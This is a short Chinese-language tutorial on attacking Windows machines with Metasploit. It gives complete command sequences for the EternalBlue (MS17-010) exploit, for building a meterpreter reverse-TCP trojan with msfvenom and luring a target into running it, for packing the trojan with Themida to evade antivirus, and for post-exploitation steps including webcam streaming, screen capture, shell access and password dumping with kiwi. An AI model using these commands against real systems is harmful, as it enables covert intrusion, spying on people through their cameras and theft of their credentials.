


# Metasploit 渗透工具

https://www.metasploit.com/

kali中打开终端 & 输入 `msfconsole`


msf使用法则：`使用模块` -> `配置模块必选项` -> `运行模块`

### eg: metasploit 攻击 windows 操作系统

metasploit通过永恒之蓝病毒漏洞攻击流程

```shell
msfconsole

# 搜索
search ms17

# 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 查看必选项 （required为yes的）
show options

# 设置必选项 
# RHOSTS：攻击谁
set RHOSTS 172.18.48.xxx
# LPORT：在kali上开启的端口（1-65535），注意不要被占用
set LPORT 10001

# 运行模块，完成攻击
run
```

### msfvenom生成远程木马控制电脑

如果系统没有漏洞呢，可以生成木马文件，诱导对方执行

```shell
# 1、生成远控木马   msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.48.236 LPORT=10000 -f exe -o demo.exe

# 2、主控端 -- 开启监听
msfconsole
use exploit/multi/handler
show options
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 172.18.48.236
set LPORT 10000
# 等待目标靶机上线
run

# 3、等待对方触发上面生成的木马文件 demo.exe
```

#### 加壳免杀

msfvenom生成的远控木马会被一些安全管家软件查杀，可以通过加壳免杀 

下载`Themida` https://www.oreans.com/download.php
直接将文件拖进去即可...



然后会生成`demo_protected.exe`，这个文件便可免杀

---

运行.exe木马文件后，便可监听到上线的鱼儿


然后就可以控制目标靶机进行一系列操作了... 你懂的....

```shell
# 看看能干些啥事情
help

# 看看对方有没有摄像头
webcam_list
# 如果有的话，可以打开摄像头
webcam_stream

# 截屏
screenshare

# 执行各种命令
shell

# kiwi抓取密码 -- 我这里测试失败
load kiwi
kiwi_cmd sekurlsa::logonpasswords
```


